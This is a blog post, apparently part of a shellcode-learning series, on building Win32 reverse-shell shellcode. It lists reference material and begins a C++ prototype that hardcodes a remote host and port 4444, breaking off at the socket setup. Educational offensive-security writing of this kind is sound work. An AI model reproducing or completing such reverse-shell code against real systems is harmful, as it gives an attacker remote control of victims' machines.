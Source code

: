 ```yaml
---
layout: single
title: Win32 Reverse Shell Shellcode 
date: 2019-10-19
classes: wide
header:
  teaser: /assets/images/avatar.jpg
tags:
  - Shellcode
  - Windows
  - C++ 
  - Assembly
  - Reverse Shell 
  - Socket Programming
---
```


## Introduction
After creating some basic shellcode where we popped calc.exe and figured out at least one method to dynamically find the address of DLLs and their exported functions, it was time to make something a bit more involved, so I went through and created a Reverse Shell PoC payload. 

## Recommended Reading
I used/copied a lot of techniques from the following resources:

+ [Marcos Valle's Reverse Shell Shellcode](https://marcosvalle.github.io/re/exploit/2018/10/21/windows-manual-shellcode-part3.html)
+ [sh3llc0d3r's Reverse Shell Shellcode](http://sh3llc0d3r.com/windows-reverse-shell-shellcode-i/)
+ [NytroRST's Introduction to Windows Shellcode Development](https://securitycafe.ro/2016/02/15/introduction-to-windows-shellcode-development-part-3/)

I combined a lot of the different strategies discussed in the blogposts. The former two use hardcoded addresses discovered with Arwin, while we're going to try and dynamically locate our function addresses. We will also use a technique I found in this [ExploitDB](https://www.exploit-db.com/exploits/40334#) entry authored by Roziul Hasan Khan Shifat to store addresses before calling them. 

Make sure you read this material or you will be lost!

## Getting Started
I'm not going to rehash much of what we have done previously since we've covered it numerous times. I will instead focus on the new aspects, especially the socket programming aspects. 

### C++ Prototype 
Let's establish a reverse-shell via a C++ program first so we know roughly what we need to accomplish. I used the MSDN documentation, Ma~Far$'s [example](https://code.sololearn.com/c9QMueL0jHiy/#cpp), and [this Medium article by Bank Security](https://medium.com/@Bank_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15) as references. Here is my completed C++ prototype:
```c
#include <Winsock2.h>
#include <Windows.h>
#include <iostream>


int main () 
{

std::string rem_host = "192.168.1.222";
int rem_port = 4444;

WSADATA wsaData;

// Call WSAStartup()
```